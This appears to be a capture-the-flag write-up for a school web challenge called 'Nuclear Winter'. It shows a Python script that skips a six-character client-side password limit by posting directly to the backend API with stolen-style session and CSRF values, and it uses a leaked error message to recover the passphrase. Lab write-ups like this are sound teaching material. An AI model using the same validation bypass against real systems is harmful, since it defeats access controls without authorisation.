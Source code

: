 # Nuclear Winter

## Description
Fabian, an Information Security Management student, was attending a class of Secure Coding when he noticed a nuclear warfare program, sitting on his lecturer's desktop.

Curious, he fumbled with the application, but couldn't get pass the password protection.


Help Fabian unlock nuclear power!

## Solution
1. Seems like there is a character check on the password field. The password field only accepts 6 characters.
```html
<input class="form-control" placeholder="Input sequence code..." name="code" type="password" maxlength="6" value="">
```
2. The solution is just to simply hook the API call and jump over the frontend validation by directly calling the backend API.
3. The following script calls the API with a long password, which... doesn't work...?
```py
import requests
import sys

sys.path.append("../../") # danger danger, do not change!! (secrets will break)

from Secrets.csrf import CSRF_KEY, CSRF_VALUE
from Secrets.session import SESSION_KEY, SESSION_VALUE

# Disable SSL warnings (mimosa uses a self-signed certificate)
requests.packages.urllib3.disable_warnings()

# Constants
URL = "https://mimosadism.dmit.local/challenges/nuclear-winter"

headers = {
    CSRF_KEY: CSRF_VALUE,
}

cookies = {
    SESSION_KEY: SESSION_VALUE,
}

data = {
    "code": "aaaaaaaaaaaaaaaaaaaaaaaa"
}

try:
    print(f"[*] Sending request to {URL} with headers: {headers} and cookies: {cookies} and data: {data} ")
    response = requests.post(URL, headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
except requests.RequestException as e:
    print(f"Request failed: {e}")
```

4. The response body includes a reply: {"reply":"Incorrect passphrase!@4l\n # code : m1m0s4"}

5. Resending the exploit body with the code "m1m0s4" unlocks the challenge.

